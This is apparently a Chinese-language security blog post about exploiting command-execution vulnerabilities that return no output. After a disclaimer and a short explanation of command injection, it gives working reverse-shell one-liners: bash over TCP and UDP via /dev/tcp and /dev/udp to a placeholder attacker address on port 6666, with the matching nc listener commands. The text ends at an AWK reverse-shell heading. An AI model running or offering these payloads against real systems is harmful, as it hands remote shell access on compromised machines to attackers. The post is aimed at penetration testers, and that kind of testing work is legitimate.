 #  命令执行无回显利用总结 附工具   
 两年半网安练习生   2024-07-05 18:32  
  
免责声明  
  
  
安全圈子我最菜（本公众号）的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！  
  
  
前言  
  
  
  
命令执行漏洞是指在一个应用程序或系统中存在缺陷，使得攻击者能够通过输入恶意命令来执行任意代码，从而获取未经授权的访问权限。这类漏洞通常发生在用户输入没有被正确验证或过滤的情况下，攻击者可以通过操纵输入来执行系统命令。  
  
命令执行漏洞可能存在于各种不同的软件和系统中，包括网页应用、操作系统、数据库系统等。攻击者通常会尝试通过输入特定的命令或利用系统命令执行漏洞来获取更高的权限、访问敏感信息或执行恶意操作。  
  
但在测试的过程中，经常会遇到RCE漏洞没有回显的情况，这种不能直接在页面上看到命令执行的结果，本篇文章来看看遇到这种情况如何去利用。  
  
反弹shell  
  
  
  
要利用一个命令执行点，最有效的方式便是反弹shell了。反弹shell的方式方法有很多，下面介绍几种反弹shell的方式。  
  
### Bash反弹shell TCP  
  
  
  
目标机:  
  
bash -c 'exec bash -i
&>/dev/tcp/x.x.x.x/6666 <&1'  
  
攻击机：  
  
nc -lvvp 6666  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WAyrRuvrubFQ72toTib2CEPEI3UXSicVic3IWpBibFpul1XA295IqicDJ0dDQUNlZ346sKlmicXwkm2RQr32KL4PBOhw/640?wx_fmt=png&from=appmsg "")  
  
  
Bash反弹shell UDP  
  
  
  
目标机:  
  
sh -i >& /dev/udp/x.x.x.x/6666
0>&1  
  
攻击机：  
  
nc -u -lvp 6666  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WAyrRuvrubFQ72toTib2CEPEI3UXSicVic3PmEdkZN9A7lFUuISErT0t2pRVJickeKO9YyjbKOnicEE2iaR8Nwx9fRzA/640?wx_fmt=png&from=appmsg "")  
  
  
### AWK反弹shell  
  
  
  